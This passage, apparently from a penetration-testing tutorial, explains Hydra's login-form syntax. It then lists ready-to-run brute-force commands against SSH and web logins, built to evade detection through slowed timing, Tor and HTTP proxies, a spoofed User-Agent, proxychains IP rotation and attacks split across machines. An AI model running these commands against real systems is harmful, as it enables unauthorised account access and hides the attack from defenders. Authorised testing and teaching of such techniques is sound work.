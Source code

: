 The HTTP form syntax follows this structure:
```
"path:form_parameters:failed_string:H=Optional_Header"
```

- `path`: The URL path to the login form
- `form_parameters`: Form data with `^USER^` and `^PASS^` placeholders
- `failed_string`: Text indicating login failure
- `H=Optional_Header`: Additional HTTP headers if needed

### Evasion Techniques

Online password attacks risk detection. These techniques help minimize detection:

#### Rate Limiting and Timing

```bash
# Slow attack with wait time
hydra -l admin -P passwords.txt -c 15 192.168.1.100 ssh

# Random timing between attempts
hydra -l admin -P passwords.txt -c 5:15 192.168.1.100 ssh
```

#### Proxy and Routing

```bash
# Route through SOCKS proxy
hydra -l admin -P passwords.txt -s 22 192.168.1.100 ssh -x 4:127.0.0.1:9050

# Route through HTTP proxy
hydra -l admin -P passwords.txt -s 22 192.168.1.100 ssh -x 3:127.0.0.1:8080
```

#### Custom User Agent

```bash
# Set custom User-Agent for web attacks
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed:H=User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

#### IP Rotation (with external tools)

```bash
# Using multiple proxies via ProxyChains
proxychains hydra -l admin -P passwords.txt 192.168.1.100 ssh

# Using a distributed setup across multiple machines
# Machine 1
hydra -l admin -P passwords.txt -M targets_1.txt ssh

# Machine 2
hydra -l admin -P passwords.txt -M targets_2.txt ssh
```
